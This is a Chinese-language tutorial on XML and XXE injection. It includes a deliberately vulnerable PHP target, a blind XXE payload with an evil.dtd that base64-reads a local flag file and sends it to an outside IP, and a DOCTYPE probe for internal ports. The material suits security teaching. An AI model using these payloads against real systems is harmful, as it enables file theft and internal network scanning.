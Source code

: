 除了可选的开头外，XML 语法主要有以下的特性：

- 所有 XML 元素都须有关闭标签
- XML 标签对大小写敏感
- XML 必须正确地嵌套
- XML 文档必须有根元素
- XML 的属性值需要加引号

另外，XML也有CDATA语法，用于处理有多个字符需要转义的情况。


## XXE

XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

## 攻击方式


### Blind XXE 无回显读取本地敏感文件

靶机: xxe_blind_test.php

```php
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
?>
```

攻击机: payload

```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://target/evil.dtd">
%remote;%int;%send;
]>
```

攻击机: evil.dtd

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/flag.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://47.97.199.89:9999?p=%file;'>">
```

连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 evil.dtd ，有点类似于将 evil.dtd 包含进来，然后 %int 调用 evil.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 &#37;)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程服务器上，这样就实现了外带数据的效果，解决了 XXE 无回显的问题。

### http网络探测

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE data SYSTEM "http://ip:80/" [
        <!ELEMENT data (#PCDATA)>
    ]>
    <data>7</data>
响应结果中存在Connection refuse, 说明端口是关闭的
